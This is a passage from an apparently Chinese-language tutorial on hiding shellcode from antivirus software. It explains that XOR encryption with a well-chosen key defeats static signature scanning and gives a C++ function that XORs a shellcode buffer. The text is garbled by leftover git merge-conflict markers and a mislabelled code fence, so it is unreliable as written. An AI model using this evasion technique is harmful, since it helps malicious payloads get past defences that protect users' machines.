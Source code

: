 [![](assets/1710206045-30353af2f02b51961f3eae4bba3bd787.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311131447-47a05b90-df66-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 编写加密和延迟方法

虽然有更高级的加密方法，但对付杀毒的静态查杀只需要使用 XOR 即可打乱所有特征，加密的 key 可以使用常见出现的字符规避签名，注意 key 不能太短，不然有一部分杀毒依然能检测到特征：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
void XorByInputKey(std::vector<unsigned char>& shellcode, const std::string& key) {
    size_t shellcodeSize = shellcode.size();
    size_t keySize = key.size();

    for (size_t i = 0, j = 0; i < shellcodeSize; i++, j++) {
        if (j >= keySize) {
            j = 0;
        }
        shellcode[i] = shellcode[i] ^ key[j];
    }
}
```

